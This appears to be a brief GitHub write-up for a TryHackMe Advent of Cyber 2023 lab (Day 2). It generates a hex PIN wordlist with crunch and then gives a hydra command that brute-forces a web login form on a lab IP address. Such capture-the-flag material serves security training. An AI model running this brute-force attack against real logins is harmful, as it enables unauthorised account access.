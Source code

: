 # Day 2

![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/86c03667-b93e-4e16-9d02-74c409f88ea6)
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/1c81a9f1-4649-4232-b609-8eabad750d2a)


## Generating password wordlist with crunch
```s
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/44c735dc-8ed4-472e-b7d1-af5291b0fb5d)


## Cracking with hydra
```s
hydra -l '' -P 3digits.txt -f -v 10.10.174.107 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/72875a73-ea57-4b6f-9363-97fc988a72f8)

